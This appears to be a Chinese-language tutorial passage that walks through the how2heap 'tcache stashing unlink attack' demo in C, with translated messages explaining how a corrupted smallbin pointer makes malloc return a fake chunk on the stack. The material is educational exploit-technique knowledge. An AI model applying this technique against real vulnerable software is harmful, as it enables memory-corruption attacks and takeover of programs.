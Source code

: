 # 示例
接下来我们使用how2heap中的tcache_stashing_unlink_attack.c示例进行说明：

> 源代码由@yichen师傅进行翻译：[https://www.yuque.com/hxfqg9/bin/qlry85#keGjh](https://www.yuque.com/hxfqg9/bin/qlry85#keGjh)
>

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;
    unsigned long *pp;

    fprintf(stderr, "stack_var 是我们希望分配到的地址，我们首先把 &stack_var[2] 写到 stack_var[3] 来绕过 glibc 的 bck->fd=bin（即 fake chunk->bk 应该是一个可写的地址）\n");
    stack_var[3] = (unsigned long)(&stack_var[2]);
    fprintf(stderr, "修改之后 fake_chunk->bk 是:%p\n",(void*)stack_var[3]);
    fprintf(stderr, "stack_var[4] 的初始值是:%p\n",(void*)stack_var[4]);
    fprintf(stderr, "现在申请 9 个 0x90 的 chunk\n");

    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }
    fprintf(stderr, "先释放 6 个，这 6 个都会放到 tcache 里面\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }
    fprintf(stderr, "接下来的释放的三个里面第一个是最后一个放到 tcache 里面的，后面的都会放到 unsortedbin 中\n");
    
    free(chunk_lis[1]);
    //接下来的就是放到 unsortedbin 了
    free(chunk_lis[0]);
    free(chunk_lis[2]);
    fprintf(stderr, "接下来申请一个大于 0x90 的 chunk，chunk0 和 chunk2 都会被整理到 smallbin 中\n");
    malloc(0xa0);//>0x90
    
    fprintf(stderr, "然后再去从 tcache 中申请两个 0x90 大小的 chunk\n");
    malloc(0x90);
    malloc(0x90);

    fprintf(stderr, "假设有个漏洞，可以把 victim->bk 的指针改写成 fake_chunk 的地址: %p\n",(void*)stack_var);
    chunk_lis[2][1] = (unsigned long)stack_var;
    fprintf(stderr, "现在 calloc 申请一个 0x90 大小的 chunk，他会把一个 smallbin 里的 chunk0 返回给我们，另一个 smallbin 的 chunk2 将会与 tcache 相连.\n");
    pp = calloc(1,0x90);
    
    fprintf(stderr, "这时候我们的 fake_chunk 已经放到了 tcache bin[0xa0] 这个链表中，它的 fd 指针现在指向下一个空闲的块: %p， bck->fd 已经变成了 libc 的地址: %p\n",(void*)stack_var[2],(void*)stack_var[4]);
    target = malloc(0x90);  
    fprintf(stderr, "再次 malloc 0x90 可以看到申请到了 fake_chunk: %p\n",(void*)target); 
    fprintf(stderr, "finish!\n");
    return 0;
}
```
